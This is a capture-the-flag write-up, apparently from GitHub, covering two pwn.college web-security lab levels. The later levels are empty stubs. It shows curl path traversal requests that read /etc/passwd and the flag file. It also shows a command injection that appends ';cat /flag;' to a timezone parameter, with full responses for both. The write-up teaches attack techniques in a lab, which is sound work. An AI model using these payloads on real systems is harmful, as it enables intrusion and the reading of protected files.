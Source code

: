 # Challanges :

* In Challanges we have `/challanges ` and `/falg` dir here we have to run the `/challnages/run` file.. 
* Then with the attack Which is given we have to capture the falg...


## Web-security level 1
* In this challnage we have to perform Path traversal..
* After running the file `/challange/run` we can perform the attack vector...
* For flag we use Curl.. 


```sh
hacker@web-security-level-1:~$ curl http://challenge.localhost:80/../../../etc/passwd --path-as-is -i
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Mon, 24 Apr 2023 05:15:31 GMT
Content-Length: 24
Server: pwn.college
Connection: close

Missing `path` argument

# First it shows that there is a missing argument..

hacker@web-security-level-1:~$ curl http://challenge.localhost:80?path=/../../../etc/passwd --path-as-is -i
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Mon, 24 Apr 2023 05:15:45 GMT
Content-Length: 1069
Server: pwn.college
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
hacker:x:1000:1000::/home/hacker:/bin/bash
sshd:x:1001:65534::/run/sshd:/usr/sbin/nologin

## with path we can get the pass file in box...

hacker@web-security-level-1:~$ curl http://challenge.localhost:80?path=/../../../flag --path-as-is -i
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.8.10
Date: Mon, 24 Apr 2023 05:15:57 GMT
Content-Length: 57
Server: pwn.college
Connection: close

pwn.college{flag_here}
hacker@web-security-level-1:~$ 

```

## Web-security level 2

* In this challange we have to get the flag via Command injection...
* This challange is bit tricky...
* There is module in `python` named `subporcess` which can be used to execute the system commands with their fucntions like `run()` & `check_output()`...


```sh
# for a normal curl request it shows like shoem kind of timezone...

hacker@web-security-level-2:~$ curl http://challenge.localhost:80
Tue Apr 25 09:27:52 UTC 2023

# after sometime i got know tha at this parameter this works very odd..

hacker@web-security-level-2:~$ curl http://challenge.localhost:80?timezone=whoami
Tue Apr 25 09:28:55 whoami 2023

# After emum ... 
# After curl i tried with the Python Request module..
# Here we are changing the aprameter timezone, then it reflect in output...
# when i use single quote (') like => ( url = "http://challenge.localhost:80?timezone=whoami ' " ) 
# The response will be like :
hacker@web-security-level-2:~$ python3 web-security/file.py 
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 1823, in full_dispatch_request
    rv = self.dispatch_request()
  File "/usr/local/lib/python3.8/dist-packages/flask/app.py", line 1799, in dispatch_request
    return self.ensure_sync(self.view_functions[rule.endpoint])(**view_args)
  File "/challenge/run", line 670, in catch_all
    return challenge()
  File "/challenge/run", line 81, in level2
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
  File "/usr/lib/python3.8/subprocess.py", line 415, in check_output
    return run(*popenargs, stdout=PIPE, timeout=timeout, check=True,
  File "/usr/lib/python3.8/subprocess.py", line 516, in run
    raise CalledProcessError(retcode, process.args,
subprocess.CalledProcessError: Command 'TZ=whoami '  date' returned non-zero exit status 2.

# here we can see that there is an error that tells more about the pareameter which we are using..
# There is a paramater (timezone) and after that we have command `date` executing...
# when we using the semicolon with (;command-here;) it executes commands...

```

> The Request which we are using to get the flag...

```py
url = "http://challenge.localhost:80?timezone=who;cat /flag;"
data = {"Cookie": "c61b7eb3605bc2a2fdbbcac920bdd414"}
response = re.post(url , data=data )
print(response.text)
```
> Response 
```sh
hacker@web-security-level-2:~$ python3 web-security/file.py 
uid=0(root) gid=1000(hacker) groups=1000(hacker)
Sat Apr 29 07:53:33 UTC 2023

hacker@web-security-level-2:~$ python3 web-security/file.py 
pwn.college{falg_here}
Sat Apr 29 07:54:22 UTC 2023
```

```sh
# we can also execute the command with curl 

hacker@web-security-level-2:~$ curl --path-as-is http://challenge.localhost:80?timezone=whoami;id; 
Sat Apr 29 08:17:17 whoami 2023
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker)

```


## Web-security level 3
```sh

```
## Web-security level 4
```sh

```

## Web-security level 5
```sh

```

## Web-security level 6
```sh

```



